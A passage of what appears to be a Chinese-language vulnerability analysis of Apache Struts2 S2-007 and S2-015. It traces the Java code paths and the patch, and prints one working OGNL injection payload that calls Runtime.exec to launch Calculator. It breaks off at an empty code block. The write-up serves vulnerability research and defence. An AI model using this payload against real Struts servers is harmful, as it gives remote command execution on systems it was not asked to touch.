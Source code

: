 ```
        ...
        fakie.put(propertyName, this.getOverrideExpr(invocation, value)); // value为age传入的字符串，fakie即为"age"->"'payload'"
    }
    if (fakie != null) {
        invocation.getStack().setExprOverrides(fakie); //  OgnlValueStack.overrides赋值为fakie的值
    }
    return invocation.invoke(); 
```
getOverrideExpr会取出传入的字符串，并用单引号包裹
```
protected Object getOverrideExpr(ActionInvocation invocation, Object value) {
    stack.push(value); // 把传入的value入栈
    var4 = "'" + stack.findValue("top", String.class) + "'"; // 把栈头的元素取出来，并用单引号包裹，即 `payload`
    return var4;
}
```
验证规则匹配到参数类型错误后，会跳转到配置的错误（或跳转）页面，然后Struts2会对jsp页面上的标签进行解析。这部分开始和S2-001非常类似。doEngTag解析标签，执行到`TextParseUtil.translateVariables()`，对age进行值的查询，然后OgnlValueStack.getValue()对值进行OGNL解析
```
private String lookupForOverrides(String expr) {
    if (this.overrides != null && this.overrides.containsKey(expr)) {
        expr = (String)this.overrides.get(expr); // 从OgnlValueStack.overrides取出age对应的值
    }
    return expr;
}
```
payload如下
```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec('open /System/Applications/Calculator.app')) + '
```
S2-007这里用的高版本2.2.3进行测试，和S2-005用的版本区别在于，多了个`if(name==null)`的判断，name为空，直接返回true。而无需将excludeProperties属性置为空
```
protected boolean isAcceptableProperty(String name) {
    if (name == null) {
        return true;
    } else {
        return this.isAccepted(name) && !this.isExcluded(name);
    }
}
```
S2-007的payload闭合了`getOverrideExpr()`方法中添加的单引号。这样OGNL可以正常解析。修复时在`stack.findValue("top") `后增加了一步转义，先对字符串中的双引号进行转义，然后再用双引号包裹。这样避免了双引号闭合的可能。
```
protected String escape(Object value){
    return "\"" + StringEscapeUtils.escapeJava(String.valueOf(value)) + "\"";
}
```

### S2-015
官网上给了两种demo。第一种如下，和S2-012重定向类似。要访问的`/${xxx}.jsp`被`TextParseUtil.translateVariables()`提取、解析。
```
<action name="*" class="example.ExampleSupport">
    <result>/example/{1}.jsp</result>
</action>
```
第一种payload如下，可以发现此处对于`allowStaticMethodAccess`相较于之前的payload发生了变化。由`#_memberAccess["allowStaticMethodAccess"]=true`变成了反射写法。究其原因，是SecurityMemberAccess的allowStaticMethodAccess属性变成的final修饰。此处还有一个思路，就是不采用静态方法，而用Processbuilder。
```
```